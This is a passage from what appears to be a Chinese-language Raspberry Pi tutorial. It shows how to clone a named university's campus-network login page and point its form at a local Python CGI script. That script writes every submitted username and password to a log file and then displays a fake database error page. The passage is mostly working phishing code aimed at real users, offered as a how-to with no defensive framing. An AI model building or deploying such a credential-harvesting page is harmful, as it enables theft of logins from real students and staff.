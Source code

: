 	启动apache2：
	
		# service apache2 start

8. 编写钓鱼网站

	我要钓鱼的是学校的校园网登录网站，所以copy校园网登录的界面，修改里面的表单提交action，提交到本机服务的后台，例如我的钓鱼网站/var/www/gw.buaa.edu.cn.html：

		...
		<script type="text/javascript">
		    function login() {
		        var errorMsg = [];
		        var username = $("input[name='username']").val();
		        var password = $("input[name='password']").val();
		        if(username == '' || username == '用户名*') {
		             errorMsg.push('请输入用户名.');
		             $('#txtuser').focus();
		        }
		        if (password == '' || password == '密码*') {
		            errorMsg.push('请输入密码.');
		            $('#txtPwd').focus();
		        }
		        if (errorMsg != "") {
		            if (errorMsg.length > 0) {
		                $('#divloginError').html('').html($('<ul/>', {
		                    html: '<li>' + errorMsg.join('</li><li>') + '</li>'
		                })).show();
		                $('#dvloginErrorM').show();
		                $.mobile.silentScroll(125);
		            } else {
		                $('#dvloginErrorM').hide();
		            }
		        } else {
		            document.aspnetForm.submit();
		        }
		    }
		</script>
		...
		<!--表单提交-->
		<form name="aspnetForm" method="post" action="/cgi-bin/login.py"...>
		<!--用户提交按钮-->
		    <a href="javascript:login()".../>
		</form>

	编写后台处理程序，我用的是python的cgi，在/usr/lib/gci-bin下新建login.py：

		```
		#!/usr/bin/python
		#-*- encoding: utf-8 -*-
		import cgi, cgitb
		form = cgi.FieldStorage()
		username = form.getvalue('username')                # 获得用户名
		password = form.getvalue('password')                # 获得密码
		f = open('/cat/gw.buaa.edu.cn.log', 'a')            # 注意apache是否有所写文件夹的权限！！
		f.write("%s: %s\r\n" % (username, password))        # 将用户名和密码写入文件
		f.close()
		print "Content-type:text/html\r\n\r\n"              # 然后显示一个错误页面
		print '<html><head>'
		print '<title>Error 126</title>'
		print '</head><body>'
		print '<h1>Error establishing a database connection</h1>'
		print '</body></html>'
		```


[respberry-pi]:	https://www.raspberrypi.org/
[respbian]:		https://www.raspbian.org/
[kali-linux]:	http://docs.kali.org/kali-on-arm/install-kali-linux-arm-raspberry-pi
[edup]: 		http://item.jd.com/509932.html
[rpi-adapters]:	http://elinux.org/RPi_USB_Wi-Fi_Adapters
[sandisk]:		http://item.jd.com/679773.html
[rpi-sd-cards]:	http://elinux.org/RPi_SD_cards